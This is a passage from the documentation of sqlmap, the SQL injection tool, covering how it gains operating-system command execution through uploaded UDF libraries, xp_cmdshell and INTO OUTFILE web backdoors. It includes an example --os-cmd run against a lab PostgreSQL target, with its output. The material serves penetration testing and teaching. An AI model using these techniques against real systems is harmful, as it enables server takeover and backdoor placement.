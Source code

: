On MySQL and PostgreSQL, sqlmap uploads (via the file upload functionality explained above) a shared library (binary file) containing two user-defined functions, `sys_exec()` and `sys_eval()`, then it creates these two functions on the database and calls one of them to execute the specified command, depending on user's choice to display the standard output or not. On Microsoft SQL Server, sqlmap abuses the `xp_cmdshell` stored procedure: if it is disabled (by default on Microsoft SQL Server >= 2005), sqlmap re-enables it; if it does not exist, sqlmap creates it from scratch.

When the user requests the standard output, sqlmap uses one of the enumeration SQL injection techniques (blind, inband or error-based) to retrieve it. Vice versa, if the standard output is not required, stacked query SQL injection technique is used to execute the command.

These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

Example against a PostgreSQL target:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(post
gres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file sys
tem can only be deleted manually
```

It is also possible to simulate a real shell where you can type as many arbitrary commands as you wish. The option is `--os-shell` and has the same TAB completion and history functionalities that `--sql-shell` has. 

Where stacked queries has not been identified on the web application (e.g. PHP or ASP with back-end database management system being MySQL) and the DBMS is MySQL, it is still possible to abuse the `SELECT` clause's `INTO OUTFILE` to create a web backdoor in a writable folder within the web server document root and still get command execution assuming the back-end DBMS and the web server are hosted on the same server. sqlmap supports this technique and allows the user to provide a comma-separated list of possible document root sub-folders where try to upload the web file stager and the subsequent web backdoor. Also, sqlmap has its own tested web file stagers and backdoors for the following languages: 
